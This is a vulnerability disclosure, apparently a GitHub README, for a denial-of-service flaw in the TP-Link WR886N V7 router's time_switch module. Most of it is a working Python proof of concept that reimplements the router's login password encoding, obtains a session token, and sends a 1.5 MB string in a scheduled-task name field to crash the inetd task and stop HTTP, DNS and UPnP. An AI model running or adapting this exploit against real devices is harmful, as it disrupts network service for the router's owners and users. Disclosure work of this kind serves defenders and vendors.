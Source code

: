 # TP-Link WR886N V7 Inetd Task Dos  

**Vender**：TP-Link

**Firmware version**: 1.1.0

**Hardware version**: TL-WR886N 7.0

**Exploit Author**: lbp@galaxylab.org

**Vendor Homepage**: http://www.tp-link.com.cn/

**Hardware Link**:http://www.tp-link.com.cn/product_397.html

## Vul detail ##
In the router module `time_switch`, user can setup wifi switch scheduled task with http post request. An normal request looks like below.

![](normal_post_request.png)

After setup time_switch parameters, `time_switch` module will save data to config file.

![](normal_config_file.png)

If we send request with long value in specific json key, it will overflow and break the `time_switch` module config file. 

If the string long enough it will also crash the inetd task, this will stop most network services, such as http, dns and upnp.    
  

![](inetd_crash.png)

## POC

```python
import requests


def security_encode(a):
    c = "RDpbLfCPsJZ7fiv"
    b = "yLwVl0zKqws7LgKPRQ84Mdt708T1qQ3Ha7xv3H7NyU84p21BriUWBU43odz3iP4rBL3cD02KZciXTysVXiV8ngg6vL48rPJyAUw0HurW20xqxv9aYb4M9wK1Ae0wlro510qXeU07kV57fQMc8L6aLgMLwygtc0F10a0Dg70TOoouyFhdysuRMO51yY5ZlOZZLEal1h0t9YQW0Ko7oBwmCAHoic4HYbUyVeU3sfQ1xtXcPcf1aT303wAQhv66qzW"
    d = ''
    e = f = g = h = k = 187
    m = 187
    f = len(a)
    g = len(c)
    h = len(b)
    if f > g:
        e = f
    else:
        e = g

    for i in range(e):
        m = k = 187
        if i >= f:
            m = ord(c[i])
        elif i >= g:
            k = ord(a[i])
        else:
            k = ord(a[i])
            m = ord(c[i])
        d += b[(k ^ m) % h]
    return d


def get_token(password):
    print(security_encode(password))
    login_url = 'http://192.168.1.1/'
    login_data = {"method": "do",
                  "login": {
                      "password": security_encode(password)
                  }
                  }
    rsp = requests.post(login_url, json=login_data)
    rsp_json = rsp.json()
    if rsp_json['error_code'] == 0:
        return rsp_json['stok']
    # set password
    elif rsp_json['error_code'] == -40401:
        set_password = {
            "method": "do",
            "set_password": {
                "password": security_encode(password)
            }
        }
    rsp = requests.post(login_url, json=set_password)
    rsp_json = rsp.json()
    if rsp_json['error_code'] == 0:
        # get token again
        return get_token(password)


password = 'zaq12wsx'
burp0_url = "http://192.168.1.1/stok=%s/ds" % get_token(password)


burp0_headers = {"Accept": "application/json, text/javascript, */*; q=0.01", "Origin": "http://192.168.1.1", "X-Requested-With": "XMLHttpRequest", "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36", "Content-Type": "application/json; charset=UTF-8", "Referer": "http://192.168.1.1/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.6,ko;q=0.5", "Connection": "close"}
burp0_json = {
  "time_switch": {
    "name": "AAA",
    "table": "time_switch",
    "para": {
      "mon": "1",
      "tue": "1",
      "wed": "1",
      "thu": "1",
      "fri": "1",
      "sat": "1",
      "sun": "1",
      "name": "312",
      "enable": 1,
      "start_time": "01%3A00",
      "end_time": "02%3A00"
    }
  },
  "method": "add"
}

burp0_json['time_switch']['name'] = '%s' % ('A' * int(1.5 * 1024 * 1024))

rsp = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, timeout=3)
print(rsp.content)

```